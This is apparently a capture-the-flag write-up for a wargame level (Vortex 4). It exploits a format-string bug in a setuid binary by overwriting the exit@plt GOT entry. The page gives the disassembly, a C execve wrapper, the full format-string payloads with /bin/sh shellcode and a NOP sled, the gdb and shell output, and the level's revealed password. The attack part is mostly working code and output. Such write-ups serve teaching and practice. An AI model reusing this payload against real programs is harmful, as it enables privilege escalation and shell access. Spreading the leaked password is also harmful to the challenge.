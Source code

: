 Dump of assembler code for function main:
```assembly
   0x0804844d <+0>:     push   ebp
   0x0804844e <+1>:     mov    ebp,esp
   0x08048450 <+3>:     and    esp,0xfffffff0
   0x08048453 <+6>:     sub    esp,0x10
   0x08048456 <+9>:     cmp    DWORD PTR [ebp+0x8],0x0		#if num of args == 0
   0x0804845a <+13>:    je     0x8048468 <main+27>
   0x0804845c <+15>:    mov    DWORD PTR [esp],0x0
   0x08048463 <+22>:    call   0x8048330 <exit@plt>
   0x08048468 <+27>:    mov    eax,DWORD PTR [ebp+0xc]		
   0x0804846b <+30>:    add    eax,0xc
   0x0804846e <+33>:    mov    eax,DWORD PTR [eax]		#eax = env[2]
   0x08048470 <+35>:    mov    DWORD PTR [esp],eax
   0x08048473 <+38>:    call   0x8048310 <printf@plt>		#printf... vulnrable to format string attack
   0x08048478 <+43>:    mov    DWORD PTR [esp],0x0
   0x0804847f <+50>:    call   0x8048330 <exit@plt>
```

using a c file to pass 0 args:
```c
#include<stdio.h>                                                                         
#include<stdlib.h>                                                                        
#include<unistd.h>                                                                        
                                                                                          
int main(int argc, char* argv[]) {                                                                              
                                                                                          
        char* arg[] = {0x0};                                                              
        char* env[] = {"/vortex/vortex4",
			"AAAA",
			argv[1],
			argv[2]};                                   
        execve("/vortex/vortex4", arg, env);                                              
        perror("execve");                                                                 
        return 0;                                                                         
}
```
indeed it prints cccc...  
ok, we see that the program exits with exit(), so we can't use regular return address override (overwritting the return address)  
but we can overwrite the address to which exit@plt jumps to...  
we need to overwrite to about 0xffffdfc4 (where env are)  
exit@plt:
```assembly
   0x8048330 <exit@plt>:        jmp    *0x804a014
   0x8048336 <exit@plt+6>:      push   $0x10
   0x804833b <exit@plt+11>:     jmp    0x8048300
```
so let's write to address 0x0804a014...  
We will use the “Magic Formula” to calculate our format string exploit. (big indian)  
$(python -c 'print "AAAABBBB" + ".%p" * 200') $(python -c 'print "\x90"*200 + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc9\xb0\x0b\xcd\x80"')  
-->AAABBBB.0xf7ffd000.0x804849b.0xf7fcd000.0x8048490.(nil).(nil).0xf7e3cad3.(nil).0xffffdc84.0xffffdc88.0xf7feae6a.(nil).0xffffdc84.0xffffdc24.0x804a018.0x804822c.0xf7fcd000.(nil).(nil).(nil).0xe0fda028.0xd8df6438.(nil).(nil).(nil).(nil).0x8048350.(nil).0xf7ff0660.0xf7e3c9e9.0xf7ffd000.(nil).0x8048350.(nil).0x8048371.0x804844d.(nil).0xffffdc84.0x8048490.0x8048500.0xf7feb300.0xffffdc7c.0x1c.(nil).(nil).0xffffdd63.0xffffdd73.0xffffdd77.0xffffdfd8.(nil).0x20.0xf7fdbba0.0x21.0xf7fdb000.0x10.0x178bfbff.0x6.0x1000.0x11.0x64.0x3.0x8048034.0x4.0x20.0x5.0x9.0x7.0xf7fdc000.0x8.(nil).0x9.0x8048350.0xb.0x138c.0xc.0x138d.0xd.0x138c.0xe.0x138c.0x17.0x1.0x19.0xffffdd4b.0x1f.0xffffdfe8.0xf.0xffffdd5b.(nil).(nil).(nil).(nil).(nil).0x83000000.0x20c44446.0xf0eb8fa5.0x71f31f3a.0x690aefa3.0x363836.0x2f000000.0x74726f76.0x762f7865.0x6574726f.0x62003478.0x41006262.0x42414141.0x2e424242 --> offset = 107  

we see that we need editional 0-3 chars to align with the stack...  
note: %hn is 3 chars, while %p is only 2, so we need to adjust the number  
of "\x90" we put in our buffer (I used it do align our buffers with the stack...) --> i used 2  

putting all together we get:  

r $(python -c 'print"\x14\xa0\x04\x08\x16\xa0\x04\x08%.57276x%107$hn%.8243x%108$hn"') $(python -c 'print "\x90"*200 + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc9\xb0\x0b\xcd\x80\x90\x90"')

Program received signal SIGSEGV, Segmentation fault.
0xfff7dfc4 in ?? ()

great! now we need just to adjust... (to 0xffffdf84)  

./execve $(python -c 'print"\x14\xa0\x04\x08\x16\xa0\x04\x08%.57212x%107$hn%.8315x%108$hn"') $(python -c 'print "\x90"*200 + "\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x31\xd2\x31\xc9\xb0\x0b\xcd\x80\x90\x90"')

we get:  
$ whoami
vortex5
$ cat /etc/vortex_pass/vortex5
:4VtbC4lr

